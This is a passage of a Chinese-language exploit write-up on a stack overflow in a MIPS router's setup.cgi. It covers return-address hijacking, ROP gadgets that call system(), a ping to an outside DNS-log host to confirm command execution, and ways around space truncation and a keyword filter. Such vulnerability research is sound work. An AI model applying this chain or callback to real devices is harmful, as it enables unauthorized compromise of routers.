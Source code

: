 mips调用函数时将返回地址放在 $ra  
，与x86架构类似，在函数起始处压栈，结束时弹出，通过ja  
指令跳到返回地址,所以需要溢出到var_s24  
来劫持控制流。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZkEa0h14aNT51BX68vcBGNxwkg6m2pA5Rycia3slvcricpPbgicTRvVCSQ/640?wx_fmt=png&from=appmsg "")  
### 执行system  
  
介绍一下 mips 下神奇的函数调用：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZibeoAXmdjYXYKCIHVo17NYlLXibSn4TXBxHdsS3nBLf3VW9iaXr81dQ5g/640?wx_fmt=png&from=appmsg "")  
  
在这里跳到 $t9  
 也就是 system  
 之后，会执行一下下面的那条语句（也就是 5B068  
 处的语句）之后才继续在 system 里面执行  
  
那么这个gadget 我们就可以把 sp + 0xa8 + 0x88 处放一个command  
的指针，这样就会调用 system(ptr)  
 了  
  
然后执行命令可以执行 ping  
 命令(其中 ping 需要绝对路径，需要注意)：  
```
/bin/ping hv14uf.dnslog.cn -c 2
```  
### 寻找gadgets  
  
MIPS架构推荐使用ropper  
进行查找，查找时可以参考可被控制的寄存器来筛选gadget。  
```
file setup.cgisearch addiu $a0
```  
  
一开始找到了这个，后来发现怎么也打不通  
```
0x5556af20: addiu $a0, $sp, 0x18; lw $ra, 0x5c($sp); lw $v0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x60; 0x55567650: la $t9, system; nop; jalr $t9; nop;
```  
  
后来翻了翻  
CTF中常见的C语言输入函数截断属性总结 | Clang裁缝店 (xuanxuanblingbling.github.io)  
发现是0x20截断了，所以我们system执行的command  
也需要  
绕过空格  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWWqeQHb60A1LG88JrongeZ3nHPHru4uwrJG6VyUPY5onntPNPTBVHibBRqKScv35MuPoq0W03Urjg/640?wx_fmt=png&from=appmsg "")  
  
同时在FindForbidValue  
函数里也check了一些敏感字符/关键字，包含这些字符的请求包将会被丢弃。  
  
<img src="  
https://s2.loli.net/2022/01/13/1r5sHdV8MGNlgLY.png  
" alt="image-20220112183944202.png" style="zoom: 67%;" />  
  